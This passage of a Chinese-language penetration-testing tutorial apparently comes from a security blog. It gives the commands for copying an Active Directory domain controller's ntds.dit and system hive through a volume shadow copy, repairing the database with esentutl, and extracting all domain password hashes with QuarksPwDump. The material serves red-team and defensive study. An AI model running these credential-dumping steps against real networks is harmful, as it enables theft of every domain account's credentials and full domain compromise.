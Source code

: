 vshadow.exe 是从 Windows SDK 中提取出来的，需要先安装 Windows SDK，下载地址：[https://developer.microsoft.com/en-us/windows/downloads/sdk-archive/](https://developer.microsoft.com/en-us/windows/downloads/sdk-archive/)

Windows SDK 下载安装完后，找到 vshadow.exe ，我这里的路径是：

```
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\x64\vsstools\vshadow.exe
```

将这三个文件放到同一个文件夹里后，运行 ShadowCopy.bat 文件，之后可以看到导出了 ntds.dit 和 system.hive 文件

使用 esentutl 修复导出的 ntds.dit 文件

```
esentutl /p /o ntds.dit
```

最后通过 QuarksPwDump.exe 导出域账号和散列值

```
QuarksPwDump.exe -dhd -sf system.hive -nt ntds.dit -o log.txt
```

在 log 里就能看到导出的密码哈希了

> 参考文章：
>
> [https://cloud.tencent.com/developer/article/1752212](https://cloud.tencent.com/developer/article/1752212)
>
> [https://www.freebuf.com/articles/network/251267.html](https://www.freebuf.com/articles/network/251267.html)
>
> [https://blog.csdn.net/qq_45742511/article/details/117301437](https://blog.csdn.net/qq_45742511/article/details/117301437)
>
> [https://www.mondayice.com/2021/07/10/cobalt-strike-intranet-penetration-domain-control-attack/](https://www.mondayice.com/2021/07/10/cobalt-strike-intranet-penetration-domain-control-attack/)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
